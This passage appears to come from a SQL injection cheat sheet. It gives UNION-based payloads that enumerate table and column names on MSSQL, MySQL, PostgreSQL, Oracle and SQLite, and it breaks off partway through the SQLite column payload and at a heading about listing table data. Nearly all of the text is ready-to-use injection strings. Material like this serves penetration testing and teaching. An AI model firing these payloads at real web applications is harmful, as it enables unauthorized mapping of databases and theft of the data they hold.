 ```txt
' UNION SELECT table_name,NULL FROM information_schema.tables--
```

### Oracle

```txt
' UNION SELECT table_name,NULL FROM all_tables--
```

### SQLite

```html
' UNION SELECT tbl_name FROM sqlite_master--
' UNION SELECT tbl_name,NULL FROM sqlite_master--
```

<br />

## List Column Names

Get column names from the table name which we got.

### MSSQL

```txt
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='table_name'--
```

### MySQL

```txt
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='table_name'-- -
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='table_name'#
```

### PostgreSQL

```txt
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='table_name'--
```

### Oracle

```txt
' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='table_name'--
```

### SQLite

```html
' UNION SELECT column
```

<br />

## List Information in the Table
